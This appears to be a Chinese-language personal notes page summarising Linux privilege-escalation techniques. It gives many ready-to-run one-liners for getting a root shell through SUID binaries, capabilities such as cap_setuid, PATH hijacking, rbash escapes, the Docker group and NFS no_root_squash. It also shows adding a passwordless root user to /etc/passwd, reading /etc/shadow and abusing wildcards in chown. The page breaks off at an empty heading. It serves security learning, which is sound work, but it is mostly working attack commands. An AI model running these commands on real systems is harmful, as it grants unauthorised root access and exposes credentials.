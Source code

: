 =========================
提权总结
=========================


.. post:: 2023-02-27 21:24:23
  :tags:
  :category: 安全
  :author: YanQue
  :location: CD
  :language: zh-cn


sudo/suid提权
=========================

- suid涉及到linux的s权限位: :doc:`/docs/操作系统/linux/概念性/linux下文件权限位`
- sudo可以其他用户执行, 可见: :doc:`/docs/操作系统/linux/linux指令/sudo`

一般来说, 就是利用某些具有s位权限的指令, 获取到root的权限

查找具有suid权限文件::

  find / -perm -u=s 2>/dev/null

查看哪些命令能被sudo::

  sudo -l

接下来列出具体可用于提权的一些指令

nmap
-------------------------------

nmap::

  echo "os.execute('/bin/bash')" > ./shell
  nmap --script=shell

suid-find
-------------------------------

find命令自带-exec参数, 可以执行命令, 若find有suid权限, 那么使用exec相当于直接提权到root::

  # find / -exec command
  find /path -exec {} \;

suid-vim
-------------------------------

vim有了suid就可以任意文件读取了

同时也可以输入::

  :shell

来获取root shell

bash
-------------------------------

开启一个新shell, suid的话自然是开启root shell::

  bash -p

less/more
-------------------------------

和vim差不多, 任意文件读取, 同时也可以输入::

  !command

进行提权到root

exim
-------------------------------

exim在特定版本下会有suid提权

这里没懂

利用环境变量
-------------------------------

如果我们找到一个suid权限的程序, 但是我们无法完成suid提权, 就可以试试搭配环境变量进行提权.

这个提权方法的思想是:

- 文件具有 suid 权限
- 文件内容有 system 函数调用, 且此调用未指定路径
- 用户有权修改自己环境变量

就可以通过劫持system函数里调用的脚本文件,
使其指向我们环境变量里自行创建的一个同名脚本文件,
那么自行创建的同名脚本文件就能以root权限运行了,
如果这个脚本文件里的命令是/bin/bash, 那么就相当于提权了.

**例**

对于被攻击者, 创建一个具有以上条件的文件::

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# cat demo.c
  # include <unistd.h>
  # include <stdlib.h>

  void main (){
    setuid(0);
    setgid(0);

    system("ps");
  }


  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# gcc demo.c -o do_ps

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# chmod u+s do_ps

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# ls -lh do_ps
  -rwsr-xr-x 1 root root 69K Mar  4 14:44 do_ps

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# ./do_ps
    PID TTY          TIME CMD
      9 pts/1    00:00:00 bash
    31 pts/1    00:00:00 do_ps
    32 pts/1    00:00:00 sh
    33 pts/1    00:00:00 ps

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# mv do_ps /home/yanque/test/

对于攻击者而言::

  ┌──(yanque㉿3675b5ebb8ce)-[~]
  └─$ find / -perm -u=s -type f 2>/dev/null
  /home/yanque/test/do_ps

  ┌──(yanque㉿3675b5ebb8ce)-[~]
  └─$ test/do_ps
    PID TTY          TIME CMD
      9 pts/1    00:00:00 bash
    51 pts/1    00:00:00 su
    67 pts/1    00:00:00 do_ps
    68 pts/1    00:00:00 sh
    69 pts/1    00:00:00 ps

发现返回了ps命令的结果, 可此猜测这个文件内部 有 system(“ps”); 类似这样的代码.

.. sidebar:: 测试...

  本地测试的时候 export 一直失败... ::

    ┌──(yanque㉿3675b5ebb8ce)-[~/test]
    └─$ export $PATH="/home/yanque/test:$PATH"
    -bash: export: `/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games=/home/yanque/test:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games': not a valid identifier

  遂放弃

然后进行以下尝试::

  cd /tmp
  echo "/bin/bash" > ps
  export $PATH=/tmp:$PATH        # 需要修改自身环境变量的权限, 但基本上都有这个权限
  chmod 777 ./ps                 # 没这条命令会导致提权失败
  cd ~
  test/do_ps                     # 提权成功

rbash绕过
=========================

rbash, 是出于安全性考虑的一个功能受限的bash, 他的限制性可能会有如下.

- cd 切换目录
- 含有斜杠 / 的命令, 譬如 /bin/sh
- 设置 PATH ENV 等环境变量
- 使用 > < 进行重定向
- binary 的运行.
  通常 root 用户会手动创建 ``/bin/binary_file -> /home/rbash_user/bin/binary_file``
  的软链接,
  限制性地提供部分 binary_file 给 rbash_user 使用 在 bash 下 echo $SHELL, 可以获取当前环境是否是 rbash.

使用scp发送自己的bash进行绕过::

  # 发送到当前用户的环境变量路径下
  scp /usr/bin/bash user@ip:/home/test/bash

  # 执行
  bash -p

同时这里也可以想到, 很多命令如man,git config help,more,less,vim,vi,ftp,gdb等,
都有自己的shell, 只需在他们各自的shell中执行/bin/sh即可进入bash界面, 一般都是在shell键入::

  !/bin/sh

来 bypass rbash

vim
-------------------------------

如对于vim, 可执行以下命令绕过::

  :set shell=/bin/bash
  :shell

find
-------------------------------

对于find来说::

  find -exec /bin/bash \;

cp
-------------------------------

对于cp::

  # 查看当前用户环境变量
  export -p

  # 然后使用cp 将 /usr/bin 下文件复制过来即可

编程语言绕过
-------------------------------

python::

  python -c "import os;os.system('/bin/bash')"

php::

  # php -a 进入php shell
  exec("/bin/bash");

perl::

  perl -e 'exec "/bin/sh";'

ruby::

  ruby -e 'exec "/bin/bash"'

ssh
-------------------------------

对于ssh, 通过ssh链接当前IP的当前用户并启动/bin/bash::

  ssh username@Ip -t "/bin/bash"

内核提权
=========================

先查看系统内核版本::

  uname -a

然后找exp打

passwd和shadow
=========================

明文密码
-------------------------------

/etc/passwd 默认所有用户可读, 但只有root可写.
/etc/passwd里的用户口令往往以x代替, 其加密后的密码会存入/etc/shadow里面, /etc/shadow默认只有root可读.

但是有小概率情况, 明文密码就直接出现在/etc/passwd了, 如果有这个情况且root密码暴露在了passwd里, 那么就可以轻而易举提权了

passwd 可写
-------------------------------

.. todo: 记得有一个加密用户密码写入的例子, 后面补充

如果/etc/passwd 我们当前用户可写, 可以直接把root的密码改成一个明文密码, 从而达到提权目的

爆破shadow
-------------------------------

如果/etc/shadow 可读, 我们可以用hashcat或者john暴力破解shadow文件

计划任务(crontab)
=========================

文件重写
-------------------------------

计划任务由crontab管理, 非root用户是无法列出root用户的计划任务的, 但我们可以列出/etc的系统任务, 系统任务默认是root权限运行的::

  ls -l /etc/cron*

如果我们有幸有权限能更改其中一个任务指定的脚本, 我们就可以往脚本里添加如反弹shell等指令, 从而提权

环境变量劫持
-------------------------------

查看定时任务

发现定义了诸多环境变量, 如果其任务有未指定绝对路径的指令, 如::

  17 *    * * *   root    shell.sh

而且我们在其环境变量路径中可以进行写入操作, 那么我们可以通过写入环境变量的靠前路径一个同名恶意文件从而导致环境变量劫持

比如我们在/sbin 写入一个 反弹shell功能的shell.sh, 那么就可以造成提权

密码查找
=========================

这个提权技术说白了, 就是去到处翻密码

可以通过以下命令, 指定关键字, 在所有文件中搜索内容中有关键字的文件::

  grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
  find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

查找十分钟内更改过的文件::

  find / -mmin -10 2>/dev/null | grep -Ev "^/proc"  (不显示^/proc文件或文件夹)


capabilities
=========================

capabilities 是linux2.2后出现的产物, 它的出现一定程度上弥补了suid这种粗糙的权限管理机制,
但是capabilities 自身也有造成提权的安全隐患

简介
-------------------------------

capabilities 把root的权限细分了, 可以分别启用或者禁用.

.. sidebar:: euid

  见 :doc:`/docs/操作系统/linux/概念性/linux下文件权限位` 下 **文件权限的s位和t位的理解** 小节

在进行特权操作的时候, 如果 euid 不是root,
那么系统就会检查是否具有执行特权操作的对应capabilities , 并以此为凭据决定特权操作是否能被执行.

如下是一些常见的特权操作及其对应capabilities

.. csv-table::

  改变文件的所属者(chown())               , CAP_CHOWN
  向进程发送信号(kill() signal())        , CAP_KILL
  改变进程的uid(setuid() setreuid() setresuid()等) , CAP_SETUID
  trace进程(ptrace())                   , CAP_SYS_PTRACE
  设置系统时间(settimeofday() stime()等)  , CAP_SYS_TIME
  忽略文件读及目录搜索的DAC访问限制         , CAP_DAC_READ_SEARCH

关于capabilities的管理工具有如下:

- getcap_
- setcap
- capsh
- filecap

getcap
+++++++++++++++++++++++++++++++

getcap 用于查询capabilities, setcap用于设置capabilities,
capsh用于查当前shell进程的capabilities, filecap既能设置又能查询.

我们可以通过以下指令搜索设置了capabilities的可执行文件::

  getcap -r / 2>/dev/null

实操 - 通过 cap_setuid
-------------------------------

cap_setuid 可以设置当前用户的euid, 我们可以通过此选项来进行一些提权.

以python为例::

  ./python3.8 = cap_setuid+eip

现python3.8 有cap_setuid权限, 那么我们可以用以下指令进行提权::

  python -c 'import os; os.setuid(0); os.system("/bin/sh")'

类似的有很多

perl::

  perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

gdb::

  gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit

php::

  php -r "posix_setuid(0); system('/bin/sh');"

python::

  python -c 'import os; os.setuid(0); os.system("/bin/sh")'

rvim (需要支持python3模块) ::

  rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

vim (需要支持python3模块, ``vim --version`` 查询, 是否支持py3) ::

  vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

实操 - 通过 CAP_DAC_READ_SEARCH
-------------------------------

cap_dac_read_search 可以绕过文件的读权限检查以及目录的读/执行权限的检查.

利用此特性我们可以读取系统中的敏感信息.

如果tar有此权限, 我们可以通过此来查看敏感文件内容::

  tar cvf shadow.tar /etc/shadow  //创建压缩文件

  tar -xvf shadow.tar  //解压缩

  cd etc  //进入解压缩的目录

  chmod +r shadow  //赋予读权限

  cat shadow | grep root  //查看shadow文件的内容

Docker
=========================

Docker用户组提权

如果我们拿到了一个Docker用户组的用户权限, 那么我们可以很轻松地完成提权

首先我们执行如下命令::

  docker run -v /:/mnt --rm -it crf_web1 chroot /mnt sh

然后在其中的/etc/passwd中写入一个root权限用户（这里直接无密码了） ::

  root2::0:0::/root:/bin/bash

然后退出来, 直接尝试::

  su root2

NFS
=========================

NFS 是一个用来共享目录的东西, 但若配置权限不当则会引发安全问题

**no_root_squash**

我们 ``cat /etc/exports`` 如果有 ``no_root_squash`` 字样,
则说明root用户会对共享目录拥有至高的权限控制, 就像是对本机的目录操作一样.

也就是说, 任何机器的root在此目录上都有最高权限.

我们在获得一台机器的root权限后, 可以通过nfs在另一台低权限机器上实现提权::

  mkdir /tmp/nfs
  mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs  # 将本机上的/tmp/nfs 挂载到共享目录
  cp /bin/bash /tmp/nfs/bash
  chmod u+s /tmp/nfs/bash  设置共享目录上bash的suid

回到低权限机, 执行 /tmp/bash  完成提权

通配符提权
=========================

`利用通配符实现Linux本地提权 <https://www.secpulse.com/archives/72965.html>`_

一种古老的UNIX黑客技术—通配符注入

通配符是一个字符或一组字符, 可以用来替换某些范围/类别的字符. 在执行任何其他操作之前, 通配符首先要经过shell进行解释.

一些常见的通配符::

  *     星号可以与文件名中的任意数量的字符匹配, 包括0个字符.
  ?     问号用于匹配任意单个字符.
  []   括号内包括一组字符, 其中任何一个字符都可以匹配该位置上的单个字符.
  –     []中的连字符表示字符范围.
  ~     单词开头的波浪符表示当前用户的主目录的名称. 如果该字符后面是另一个用户的登录名, 则表示该用户的主目录.

例1-通过Chown劫持文件所有者
-------------------------------

前置, root想给多用户提供一个公共的目录::

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# mkdir /tmp/common

  ┌──(root㉿3675b5ebb8ce)-[~]
  └─# chmod 777 /tmp/common

用户 yanque 在其下创建了三个文件::

  ┌──(yanque㉿3675b5ebb8ce)-[/tmp/common]
  └─$ touch file1.php file2.php file3.php

  ┌──(yanque㉿3675b5ebb8ce)-[/tmp/common]
  └─$ ls -lh
  total 0
  -rw-r--r-- 1 yanque yanque 0 Mar  5 15:59 file1.php
  -rw-r--r-- 1 yanque yanque 0 Mar  5 15:59 file2.php
  -rw-r--r-- 1 yanque yanque 0 Mar  5 15:59 file3.php

攻击者 yq 发现了这个目录下的文件都是 yanque 的, 猜测root用户可能会对其使用通配符的方式进行授权操作, 于是做出以下操作::

  ┌──(yq㉿3675b5ebb8ce)-[/tmp/common]
  └─$ echo >--reference=my.php

  ┌──(yq㉿3675b5ebb8ce)-[/tmp/common]
  └─$ echo >my.php

  ┌──(yq㉿3675b5ebb8ce)-[/tmp/common]
  └─$ ls -lh
  total 8.0K
  -rw-r--r-- 1 yq     yq     1 Mar  5 16:04 '--reference=my.php'
  -rw-r--r-- 1 yanque yanque 0 Mar  5 15:59  file1.php
  -rw-r--r-- 1 yanque yanque 0 Mar  5 15:59  file2.php
  -rw-r--r-- 1 yanque yanque 0 Mar  5 15:59  file3.php
  -rw-r--r-- 1 yq     yq     1 Mar  5 16:04  my.php

.. tip::

  猜测root可能会执行::

    cd /tmp/common && chown -R yanque:yanque *.php

  企图让实际执行指令变为::

    chown yanque:yanque /tmp/common/* --reference=my.php

root因为某些不知名的原因进行了授权操作::

  ┌──(root㉿3675b5ebb8ce)-[/]
  └─# cd /tmp/common/

  ┌──(root㉿3675b5ebb8ce)-[/tmp/common]
  └─# chown -R yanque:yanque *.php
  chown: cannot access 'yanque:yanque': No such file or directory

  ┌──(root㉿3675b5ebb8ce)-[/tmp/common]
  └─# ls -lh
  total 8.0K
  -rw-r--r-- 1 yq yq 1 Mar  5 16:04 '--reference=my.php'
  -rw-r--r-- 1 yq yq 0 Mar  5 15:59  file1.php
  -rw-r--r-- 1 yq yq 0 Mar  5 15:59  file2.php
  -rw-r--r-- 1 yq yq 0 Mar  5 15:59  file3.php
  -rw-r--r-- 1 yq yq 1 Mar  5 16:04  my.php

权限变成了yq的.

例2-通过tar投送漏洞利用代码
-------------------------------





